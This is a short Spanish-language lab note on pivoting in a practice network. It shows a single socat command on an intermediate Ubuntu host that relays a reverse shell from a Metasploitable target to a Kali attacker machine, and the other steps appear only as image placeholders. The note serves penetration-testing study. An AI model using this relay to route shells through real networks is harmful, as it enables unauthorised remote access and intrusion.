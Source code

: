 [[Lab Pivoting and Tunneling - Synfonos]]
#pivoting 
Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20240615203355.png]]

Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```

![[Pasted image 20240615203400.png]]

Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:

![[Pasted image 20240615203405.png]]

Y en Kali recibimos la conexión:

![[Pasted image 20240615203410.png]]
